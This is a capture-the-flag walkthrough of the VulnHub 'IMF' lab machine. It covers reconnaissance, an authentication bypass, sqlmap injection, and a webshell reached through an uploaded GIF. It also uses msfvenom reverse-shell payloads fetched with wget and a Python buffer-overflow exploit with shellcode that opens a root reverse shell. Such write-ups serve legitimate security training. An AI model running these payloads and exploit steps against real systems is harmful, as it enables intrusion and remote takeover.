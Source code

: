 +++
title = "imf"
slug = "imf"
[taxonomies]
categories=["vulnhub"]
tags=["vulnerable-machine"]
+++

##Finding machine on the network:

##Nmap
{% highlight bash %}
nmap -sn 172.16.161.129/24
{% endhighlight %}
Scan for hosts on my local network which gave me a machine named "imf"

Now to run nmap on the machine itself:
{% highlight bash %}
nmap -Pn -oA imf-nmap-results -p 0-65525 172.16.161.129
{% endhighlight %}
Looks like port 80 is open.

After clicking through the pages on the site and viewing their sources I found this:
{% highlight html %}
<!-- flag1{YWxsdGhlZmlsZXM==} -->
{% endhighlight %}
The first flag, having a = at the end looks base64 encoded.
{% highlight bash %}
echo YWxsdGhlZmlsZXM== | base64 -d
{% endhighlight %}
returns: allthefiles

Something I noticed on the contact page was some random weird named js files:
{% highlight html %}
<script src="js/ZmxhZzJ7YVcxbVl.js"></script>
<script src="js/XUnRhVzVwYzNS.js"></script>
<script src="js/eVlYUnZjZz09fQ==.min.js"></script>
{% endhighlight %}
Those all might combine into a base64 string, lets check it out
{% highlight bash %}
echo ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ== | base64 -D
{% endhighlight %}
which  returns: flag2{aW1mYWRtaW5pc3RyYXRvcg==}

after running:
{% highlight bash %}
echo aW1mYWRtaW5pc3RyYXRvcg== | base64 -D
{% endhighlight %}
I get:

imfadministrator

I tried browsing to: http://172.16.161.129/imfadministrator

Loads up a login page, upon viewing the page source I find:
{% highlight html %}
<!-- I couldn't get the SQL working, so I hard-coded the password. It's still mad secure through. - Roger -->
{% endhighlight %}
I remembered seeing emails on the contact page, went page and sure enough roger is a user, rmichaels is his email.

Trying the user it seems the user is valid.

After some googling, looks like there is a potential authentication type conversion that might get us around authentication.  Looking at a post changing the type of the data that is received server side could bypass authentication.  Intercepting the HTTP post with burp and changing pass to pass[], this ends up sending an array down to the server instead of a string, improper handling of the input must be how we can get past it.  Once the post is forwarded another flag: flag3{Y29udGludWVUT2Ntcw==} which decodes to: continueTOcms

{% highlight bash %}
sqlmap --url http://172.16.161.129/imfadministrator/cms.php?pagename=home --threads 5 --level 5 --cookie="PHPSESSID=phpsessionid" --dbms=MYSQL --dump
{% endhighlight %}
Important to remember the last two parameters, I missed these originally and totally didn't get some output for moving forward from the command line.

Another flag: flag4{dXBsb2Fkcjk0Mi5waHA=} which decodes to: uploadr942.php

flag5{YWdlbnRzZXJ2aWNlcw==} which decodes to: agentservices

Running ps -A through the webshell created to get flag5 I'm able to see all the processes running on the remote machine.  One item that loks interesting is knockd, usually this would indicate that a port knocking sequence exists to open a service up to the public.

Running: netstat -vatn shows a list of the processes listening on TCP, 7788 and 22 look interesting

Trying to knock the default ports (7000 8000 9000)
{% highlight bash %}
for x in 7000 8000 9000; do nmap -T4 -p $x 192.168.1.20;done;
{% endhighlight %}
No luck though when trying to hit the interesting ports.

Trying to hit port 7788:
{% highlight bash %}
curl http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=nc localhost 7788
{% endhighlight %}
I get a little shell app. Given that we are investigating "agentservice" I do a find on agent:
{% highlight bash %}
curl http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=find%20/%20-name%20%22(asterisk)agent%22
{% endhighlight %}
Which found:
/etc/xinetd.d/agent
{% highlight bash %}
curl http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=cat%20/etc/xinetd.d/agent
{% endhighlight %}
Gets:
{% highlight nginx %}
# description: The agent server serves agent sessions
# unencrypted agentid for authentication.
service agent
{
       flags          = REUSE
       socket_type    = stream
       wait           = no
       user           = root
       server         = /usr/local/bin/agent
       log_on_failure += USERID
       disable        = no
       port           = 7788
}
{% endhighlight %}
Looks like /usr/local/bin/agent is a service running.
{% highlight bash %}
curl -v http://172.16.161.1.129/imfadministrator/uploads/c59ca80d5d76.gif?c=ls%20-latr%20/usr/local/bin/agent

-rwxr-xr-x 1 root root 11896 Oct 12 22:39 /usr/local/bin/agent
{% endhighlight %}
The service runs as root, possibly a way in

In order to get a look at the binary I base64 encoded the file contents and saved it to a file locally:
{% highlight bash %}
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=base64%20-w%200%20/usr/local/bin/agent
{% endhighlight %}
Then decoded it locally:
{% highlight bash %}
cat agentservice | base64 -d >> agentservicebinary
{% endhighlight %}
and finally decompiled the binary here: https://retdec.com/decompilation-run/

On line 37 it looks like the value: 0x2ddd984 assigns 48093572 to an int32_t variable that is used for checking if an agent's ID (passed into executable as a parameter is equal to 48093572), looks like a broken hard-coded authentication.

Also, I used this to convert the hex to an int:
{% highlight bash %}
echo $((0x2ddd984))
{% endhighlight %}
gave me: 48093572.

Next I create a meterpreter for reverse_tcp handling using msfvenom:
{% highlight bash %}
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=172.16.161.128 LPORT=4444 -f elf > imf-meterpreter
{% endhighlight %}
Now we need to get the file onto the remote machine, wget is probably the easiest.

Setting up a simple web server to host the file:

python -m SimpleHTTPServer

Now run wget on the remote machine:
{% highlight bash %}
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=wget%20http://172.16.61.128:8000/imf-meterpreter
{% endhighlight %}
Make the meterpreter runnable:
{% highlight bash %}
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=chmod%20777%20imf-meterpreter
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=chmod%20a+x%20imf-meterpreter
{% endhighlight %}
Now we have a way to interact with the remote machine in metasploit

in MSF run:
{% highlight bash %}
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 172.16.161.128
set LPORT 4444
run
{% endhighlight %}

Finally, run the script:

curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=.%2Fimf-meterpreter

Once metrepreter prompt is up setup port forwarding for the service:
{% highlight bash %}
portfwd add -l 7788 -p 7788 -r 127.0.0.1
{% endhighlight %}

Open another terminal and hit the service:
{% highlight bash %}
nc localhost 7788
{% endhighlight %}
Now we can interact with the service its time to look at the source again to find a way to exploit.

Combing through the source on line 226:
{% highlight c %}
gets((char *)&str);*
{% endhighlight %}
This reads user input, however the size of the input isn't defined, looks like a possible buffer overflow, basically we're passing in more information that the command is going to properly handle and extending the application's memory outside of it's contextual boundary causing an error to occur.

After doing some reading on ways to exploit the buffer overflow I stumbled onto the idea of return oriented programming, tl;dr; Its a way to execute a buffer overflow when defense mechanisms like code-signing and non-executable memory are employed.  In this technique you can send machine language that is already in the machine's memory, whether through the program being exploited itself or other shared libraries.  When these pieces when combined can be used to perform actions on the remote machine.

I was able to upload the agent binaries we got earlier to ropshell.com which analyzes the compiled code for items in memory that can be used in an exploit, in this case: call eax.

Ater reading through some reference docs for assembly, specifically x86 I have surmised that with our goal being getting a root shell by escaping the 'agent' service causing a buffer overflow to occur and running 'call eax.'  In doing so we would be executing whatever is in the eax register.  Another things we're going to need to do is make sure that our exploit is going to be at the address eax is referencing at runtime.  I'm basing this on using the eax register in the processor can be used to execute code held at a memory address to circumvent normal program execution, in this case getting a root shell.

Now to generate a buffer to overflow using msfvenom:

{% highlight bash %}
msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.161.128 LPORT=4445 -f python -b "\x00\x0a\x0d"
{% endhighlight %}
This command will give up the buffer overflow shellcode for creating a reverse_tcp shell with my machine as the host and 4445 as the portand to exclude newline characters from the output.

Next write up a python script for using the exploit:
{% highlight python %}
import socket
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('localhost', 7788))
client.recv(512)
client.send("48093572\n")
client.recv(512)
client.send("3\n")
client.recv(512)

#shellcode from msfvenom

buf =  ""
buf += "\xd9\xc2\xba\xa6\xf9\x71\x23\xd9\x74\x24\xf4\x58\x2b"
buf += "\xc9\xb1\x12\x31\x50\x17\x03\x50\x17\x83\x4e\x05\x93"
buf += "\xd6\xbf\x2d\xa3\xfa\xec\x92\x1f\x97\x10\x9c\x41\xd7"
buf += "\x72\x53\x01\x8b\x23\xdb\x3d\x61\x53\x52\x3b\x80\x3b"
buf += "\xc9\xab\xd3\x3b\x79\xce\x13\x2a\x27\x47\xf2\xfc\xb1"
buf += "\x07\xa4\xaf\x8e\xab\xcf\xae\x3c\x2b\x9d\x58\xd1\x03"
buf += "\x51\xf0\x45\x73\xba\x62\xff\x02\x27\x30\xac\x9d\x49"
buf += "\x04\x59\x53\x09"
#padding

buf += "A" * (168 - len(buf))

#call eax gadget
buf += "\x63\x85\x04\x08\n"

client.send(buf)

{% endhighlight %}

Now start ncat for the exploit:
{% highlight bash %}
ncat -lv 172.16.161.128 4445
{% endhighlight %}
Then run the script: python payload.py

We're in!
{% highlight bash %}
cd /root
cat Flag6.txt | base64 -d yeilds: ~GhostProtocols
cat TheEnd.txt outputs the final you won thing.
{% endhighlight %}
